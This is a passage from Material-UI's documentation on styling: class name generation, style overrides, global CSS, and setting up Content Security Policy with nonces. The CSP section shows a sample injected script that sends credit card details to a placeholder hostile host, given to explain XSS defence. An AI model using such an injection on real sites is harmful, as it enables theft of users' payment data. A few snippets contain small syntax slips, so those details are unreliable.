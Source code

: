rendered styles into the `<head>` element.\n\nRefer to [this example project](https://github.com/Foso/material-ui/blob/master/examples/nextjs) for an up-to-date usage example.\n\n## Class names\n\nThe class names are generated by [the class name generator](/styles/api/#creategenerateclassname-options-class-name-generator).\n\n### Por defecto\n\nBy default, the class names generated by `@material-ui/core/styles` are **non-deterministic**; you can't rely on them to stay the same. Let's take the following style as an example:\n\n```js\nconst useStyles = makeStyles({\n  root: {\n    opacity: 1,\n  },\n});\n```\n\nThis will generate a class name such as `makeStyles-root-123`.\n\nYou have to use the `classes` prop of a component to override the styles. The non-deterministic nature of the class names enables style isolation.\n\n- In **development**, the class name is: `.makeStyles-root-123`, following this logic:\n\n```js\nconst sheetName = 'makeStyles';\nconst ruleName = 'root';\nconst identifier = 123;\n\nconst className = `${sheetName}-${ruleName}-${identifier}`;\n```\n\n- In **production**, the class name is: `.jss123`, following this logic:\n\n```js\nconst productionPrefix = 'jss';\nconst identifier = 123;\n\nconst className = `${productionPrefix}-${identifier}`;\n```\n\n### With `@material-ui/core`\n\nThe generated class names of the `@material-ui/core` components behave differently. When the following conditions are met, the class names are **deterministic**:\n\n- Only one theme provider is used (**No theme nesting**)\n- The style sheet has a name that starts with `Mui` (all Material-UI components).\n- The `disableGlobal` option of the [class name generator](/styles/api/#creategenerateclassname-options-class-name-generator) is `false` (the default).\n\nThese conditions are met with the most common use cases of `@material-ui/core`. For instance, this style sheet:\n\n```jsx\nconst useStyles = makeStyles({\n  root: { /* … */ },\n  label: { /* … */ },\n  outlined: {\n    /* … */\n    '&$disabled': { /* … */ },\n  },\n  outlinedPrimary: {\n    /* … */\n    '&:hover': { /* … */ },\n  },\n  disabled: {},\n}, { name: 'MuiButton' });\n```\n\ngenerates the following class names that you can override:\n\n```css\n.MuiButton-root { /* … */ }\n.MuiButton-label { /* … */ }\n.MuiButton-outlined { /* … */ }\n.MuiButton-outlined.Mui-disabled { /* … */ }\n.MuiButton-outlinedPrimary: { /* … */ }\n.MuiButton-outlinedPrimary:hover { /* … */ }\n```\n\n*This is a simplification of the `@material-ui/core/Button` component's style sheet.*\n\nCustomization of the TextField can be cumbersome with the [`classes` API](#overriding-styles-classes-prop), where you have to define the the classes prop. It's easier to use the default values, as described above. For example:\n\n```jsx\nimport styled from 'styled-components';\nimport { TextField } from '@material-ui/core';\n\nconst StyledTextField = styled(TextField)`\n  label.focused {\n    color: green; 💚\n  }\n  .MuiOutlinedInput-root {\n    fieldset {\n      border-color: red; 💔\n    }\n    &:hover fieldset {\n      border-color: yellow; 💛\n    }\n    &.Mui-focused fieldset {\n      border-color: green; 💚\n    }\n  }\n`;\n```\n\n{{\"demo\": \"pages/styles/advanced/GlobalClassName.js\"}}\n\n## Global CSS\n\n### `jss-plugin-global`\n\nThe [`jss-plugin-global`](#jss-plugins) plugin is installed in the default preset. You can use it to define global class names.\n\n{{\"demo\": \"pages/styles/advanced/GlobalCss.js\"}}\n\n### Hybrid\n\nYou can also combine JSS generated class names with global ones.\n\n{{\"demo\": \"pages/styles/advanced/HybridGlobalCss.js\"}}\n\n## CSS prefixes\n\nJSS uses feature detection to apply the correct prefixes. [Don't be surprised](https://github.com/Foso/material-ui/issues/9293) if you can't see a specific prefix in the latest version of Chrome. Your browser probably doesn't need it.\n\n## Content Security Policy (CSP)\n\n### What is CSP and why is it useful?\n\nBasically, CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:\n\n```html\n<script>\n  sendCreditCardDetails('https://hostile.example');\n</script>\n```\n\nThis vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.\n\nYou can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).\n\n### How does one implement CSP?\n\nIn order to use CSP with Material-UI (and JSS), you need to use a nonce. A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request. JSS has a [great tutorial](https://github.com/cssinjs/jss/blob/master/docs/csp.md) on how to achieve this with Express and React Helmet. For a basic rundown, continue reading.\n\nA CSP nonce is a Base 64 encoded string. You can generate one like this:\n\n```js\nimport uuidv4 from 'uuid/v4';\n\nconst nonce = new Buffer(uuidv4()).toString('base64');\n```\n\nIt is very important that you use UUID version 4, as it generates an **unpredictable** string. You then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:\n\n```js\nheader('Content-Security-Policy')\n  .set(`default-src 'self'; style-src: 'self' 'nonce-${nonce}';`);\n```\n\nIf you are using Server-Side Rendering (SSR), you should pass the nonce in the `<style>` tag on the